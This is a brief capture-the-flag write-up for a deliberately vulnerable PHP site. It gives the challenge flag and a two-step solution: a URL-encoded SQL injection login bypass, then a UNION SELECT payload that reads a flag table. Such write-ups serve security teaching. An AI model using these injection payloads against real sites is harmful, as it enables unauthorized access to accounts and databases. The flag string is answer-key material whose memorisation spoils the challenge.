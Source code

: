 # My First PHP Site

**Description:** My first PHP website looks extremely cool! However, some random Security researchers keep on contacting me about *"several injection vulnerabilities"*. In all honesty I have no idea what they are talking about, so can you test my website and find the vulnerabilities for me?

The flag is in the table called **flag** on the database.

**Flag:** CTF{i_5h0uLd_pRoBs_l3aRn_aBoUt_pRePaRed_qU3ri3s...}

## Solution

### Step 1: Authentication Bypass

* The login page is vulnerable to SQLi authentication bypass

* Example POST payload (it is URL encoded as well)
```
username=admin%27+or+%271%27+%3D+%271%27%3B--&password=test
```

### Step 2: Union Select SQLi

* The feedback viewer is vulnerable to a UNION SELECT attack.

* Example attack: `' UNION SELECT 1, 2, flag FROM flag;--`
